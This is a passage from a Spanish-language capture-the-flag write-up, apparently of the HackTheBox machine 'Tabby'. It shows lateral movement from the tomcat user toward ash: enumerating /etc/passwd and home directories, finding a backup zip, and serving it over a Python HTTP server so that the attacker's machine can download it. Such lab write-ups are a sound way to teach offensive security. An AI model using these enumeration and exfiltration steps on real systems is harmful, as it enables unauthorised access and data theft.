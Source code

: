 -----------------------
# MOVIMIENTO LATERAL DE USUARIOS
-----------------

- Como podemos ver el usuario `tomcat` es un usuarios sin privilegios con el que solo tiene acceso a típicas rutas de configuración de los servicios webs que hay activos en el servidor y poco mas.

```bash
tomcat@tabby:/var/lib/tomcat9$ whoami
tomcat
tomcat@tabby:/var/lib/tomcat9$ id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
tomcat@tabby:/var/lib/tomcat9$ sudo -l
```

- Podemos observar que existe un usuario adicionar llamado `ash` por lo que vamos a intentar movernos lateralmente a este usuario para poder escalar privilegios a `root` desde el debido a que con el usuario `tomcat` no vamos a poder realizar nada.

```bash
tomcat@tabby:/var/lib/tomcat9$ ls -l /home/
total 4
drwxr-x--- 4 ash ash 4096 Sep 22 10:02 ash

tomcat@tabby:/var/lib/tomcat9$ cat /etc/passwd | grep -i bash
root:x:0:0:root:/root:/bin/bash
ash:x:1000:1000:clive:/home/ash:/bin/bash
tomcat@tabby:/var/lib/tomcat9$
```

**En este tipo de casos que nos tenemos que mover lateralmente de un usuario a otro lo mas probable es que encontremos algún tipo de credencial o vía de escalada dentro de los directorios que tiene acceso el usuario `tomcat` por lo que manos a la obra y lo mas importante en estos casos es el reconocimiento y no dejarnos ningún tipo de pista por ver.**

- Indagando un poco encontramos un fichero llamado `16162020_backup.zip` y como podemos ver tiene permisos del usuario `ash` por lo que parece bastante interesante, vamos a moverlo al directorio `/tmp` y transferirlo a nuestra maquina atacante para poder examinarlo mas exhaustivamente

```bash
tomcat@tabby:/var/www/html/files$ ls -la
total 36
drwxr-xr-x 4 ash  ash  4096 Aug 19  2021 .
drwxr-xr-x 4 root root 4096 Aug 19  2021 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16  2020 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Aug 19  2021 archive
drwxr-xr-x 2 root root 4096 Aug 19  2021 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16  2020 statement
```

- Transferencia del fichero

```bash
tomcat@tabby:/var/www/html/files$ cp 16162020_backup.zip /tmp/
tomcat@tabby:/var/www/html/files$ cd /tmp/
tomcat@tabby:/tmp$ which python3
/usr/bin/python3
tomcat@tabby:/tmp$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.16.13 - - [22/Sep/2024 12:41:53] "GET /16162020_backup.zip HTTP/1.1" 200 -
```

